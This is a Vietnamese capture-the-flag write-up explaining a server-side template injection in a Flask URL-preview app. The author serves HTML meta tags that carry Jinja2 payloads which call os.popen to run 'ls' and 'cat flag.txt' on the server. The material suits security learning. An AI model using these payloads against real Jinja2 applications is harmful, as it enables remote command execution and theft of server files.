


# Write Up

## Mô tả Challenge

- Challenge cung cấp mã nguồn của một ứng dụng web (Flask).
- Mục tiêu là phân tích mã, phát hiện lỗ hổng Server-Side Template Injection (SSTI) và lấy flag.

---

## Phân tích mã nguồn

Trong file `Flask` `app.py` có đoạn xử lý phần `description` trong route `/fetch_url_info`:

```python
escaped_description = html.escape(description) # Escape HTML entities in description
escaped_description = Template(description).render()
```

### 🔎 Nhận xét:

- Ban đầu `description` được escape bằng `html.escape()` → ngăn chặn XSS. Nhưng ngay sau đó, nó lại được đưa trực tiếp vào `Template(description).render()`. Đây là vấn đề an toàn nghiêm trọng: bất kỳ nội dung nào trích xuất từ website bên ngoài (`meta description`, `og:description`, `twitter:description`) sẽ được `Flask/Jinja2` biên dịch như một template.

- Nếu kiểm soát được nội dung `description` (bằng cách dựng 1 trang web giả hoặc chèn payload vào `meta tag`), ta có thể thực thi `Jinja2 template injection`.

### Xác định vector tấn công

Người dùng nhập URL vào form `/fetch_url_info`, server `requests.get(url)` và lấy `HTML response`. Nó sẽ tìm `meta tag description`, `og:description`, hoặc `twitter:description`.Mình có thể đưa vào meta như sau:

```html
<meta name="description" content="{{ 7*7 }}">
```

Khi server render:

- `html.escape` biến `{{ 7*7 }}` thành `&#123;&#123; 7*7 &#125;&#125;`, ngay sau đó `Template(description).render()` sẽ xử lý lại → `kết quả = 49`

✅ **Vậy là đã xác nhận có lỗ hổng SSTI.**

### Đọc object trong Jinja2

Trong Jinja2, có thể truy cập nhiều object Python:

- `self.__init__.__globals__`
- `cycler.__init__.__globals__`
- `lipsum.__globals__`

Những object này dẫn đến `__builtins__` hoặc `os` module.

### Thực thi lệnh hệ thống thông qua os.open

```jinja2
{{ cycler.__init__.__globals__['os'].popen(' ').read() }}
```

- `['os']`: lấy module os từ `__globals__` 
- `.popen(' ')`: gọi `os.popen()` với chuỗi ' ' làm lệnh `shell`
- `.read()`: đọc toàn bộ output từ stream trả về bởi `popen()`

---

## Tiến hành

Tạo một file HTML chứa `meta og:description` có biểu thức template đánh giá phép gọi lệnh (ở đây tôi dùng `os.popen('').read()` trong `meta`).

```html
<!doctype html>
<html>
<head> 
  <meta property="og:description" content="{{ cycler.__init__.__globals__['os'].popen('ls').read() }}"> 
  <title>x</title> 
</head>
<body>ok</body>
</html>
```

Tiếp theo tôi dùng Vercel để deloy và fetch URL này. Kết quả hiển thị trên ứng dụng là danh sách file trong thư mục ứng dụng



Tôi đã thấy file `flag.txt` và tiếp tục truy vấn để đọc file flag

```html
<!doctype html>
<html>
<head> 
  <meta property="og:description" content="{{ cycler.__init__.__globals__['os'].popen('cat flag.txt').read() }}"> 
  <title>x</title> 
</head>
<body>ok</body>
</html>
```

Kêt quả thu được:



---

## Flag

Flag: `PTITCTF{bai_n4y_x4m_v~i}`